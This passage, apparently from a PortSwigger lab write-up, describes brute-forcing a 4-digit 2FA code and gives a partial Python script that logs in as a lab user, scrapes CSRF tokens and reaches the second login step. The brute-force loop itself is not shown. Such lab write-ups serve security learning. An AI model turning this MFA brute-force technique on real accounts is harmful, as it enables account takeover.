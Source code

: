 The 3 main requests sent are:

![](../../.gitbook/assets/portswigger-auth-writeup-image-35.png)

When entering false codes, I have 2 tries before it sends me back to the `/login` page.

![](../../.gitbook/assets/portswigger-auth-writeup-image-36.png)

One attack path is logging in at `/login`, then sending a GET request to `/login2`. Afterwards, I can try brute-forcing the POST request to `/login2`. If I get kicked out, I can just reset the 'setup' process:

```python
import requests
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0a8a00080397486580b235a600340007'
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

def setup():
	## LOGIN
	r = s.get(url + '/login', proxies=proxies, verify=False)
	match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
	login_csrf_token = match[1]

	carlos_data ={
		'csrf':login_csrf_token,
		'username':'carlos',
		'password':'montoya'
	}
	r = s.post(url + '/login', data=carlos_data, proxies=proxies, verify=False)

	## GET LOGIN2
	r = s.get(url + '/login2', proxies=proxies, verify=False)
	match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
	mfa_csrf_token = match[1]
	if "Please enter your 4-digit security code" not in r.text:
		print('[-] Get to login2 failed')
		exit()
	return mfa_csrf_token

```